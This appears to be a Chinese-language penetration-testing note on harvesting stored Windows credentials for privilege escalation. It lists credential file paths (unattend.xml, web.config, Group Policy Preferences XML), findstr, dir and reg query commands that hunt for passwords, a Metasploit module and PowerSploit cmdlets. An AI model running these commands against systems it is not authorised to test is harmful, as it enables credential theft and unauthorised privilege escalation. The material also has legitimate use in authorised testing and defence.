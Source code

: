 ```yaml
---
title: "收集Windows用户凭证"
author: ["4shen0ne"]
tags: ["windows"]
draft: false
---
```


通过搜索本地存储的管理员凭证, 是最直接简单的提权方法


## Windows Deployment Services {#windows-deployment-services}

WDS，Windows 部署服务，主要应用于大中型网络中的计算机操作系统的批量化部署。使用
WDS 可以通过网络管理和部署映像以及进行无交互的安装（unattended installation）。

优势：

-   降低部署难度以及手动安装付出的时间成本
-   允许基于网络安装 Windows 操作系统
-   可以在无操作系统的主机上安装操作系统

过程：

1.  客户端在启动过程中，通过 DHCP 服务器得到 IP 地址
2.  客户端通过广播或 `DHCP` 查找到 WDS 服务器，并尝试连接它，启动 `Windows PE`
3.  客户端开始安装 WDS 服务器上的操作系统映像，完成所有安装工作

当使用 WDS 部署 Windows 后，管理员的密码会以 `base64` 编码保存在以下的某个路径中：

```nil
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

使用 msf 模块发现 WDS 的登录凭证：use post/windows/gather/enum_unattend


## IIS 配置文件 {#iis-配置文件}

如果主机上允许了 IIS, 配置文件 `web.config` 中可能有管理员的明文密码

常见路径:

```nil
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

包含管理员密码的 `web.config` 文件例子:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<authentication mode="Windows">
<forms>
<credentials passwordFormat="Clear">
<user name="Admin" password="Admin" />
</credentials>
</forms>
</authentication>
</system.web>
</configuration>
```


## Group Policy Preferences {#group-policy-preferences}

组策略的相关文件 `Groups.xml` 包含用户密码, 可以在本地缓存或者 DC 中找到, 密码是加
密存储的, 但微软发布了它的密钥, 可以进行破解

```nil
C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
\\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
```

除了组策略, 其他策略的相关文件也可能包含密码:

```nil
Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```


## 搜索密码的命令 {#搜索密码的命令}

查找包含 `password` 关键字的文件:

```nil
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```

查找可能包含密码的敏感文件:

```nil
C:\> dir /b /s unattend.xml
C:\> dir /b /s web.config
C:\> dir /b /s sysprep.inf
C:\> dir /b /s sysprep.xml
C:\> dir /b /s *pass*
C:\> dir /b /s vnc.ini
```


## 第三方应用 {#第三方应用}

一些常见的第三方应用, 以及它们用来保存密码的文件

-   McAfee

    ```text
    %AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml
    ```

-   UltraVNC
    ```nil
      [ultravnc]
      passwd=5FAEBBD0EF0A2413
    ```

-   RealVNC

    ```text
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
    ```

-   Putty

    ```text
    reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
    ```

-   Registry
    ```nil
      reg query HKLM /f password /t REG_SZ /s
      reg query HKCU /f password /t REG_SZ /s
    ```

-   Windows Autologin

    ```text
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    ```

-   SNMP Parameters

    ```text
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    ```


## PowerSploit {#powersploit}

PowerSploit 中查找登录凭证的命令:

```nil
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```
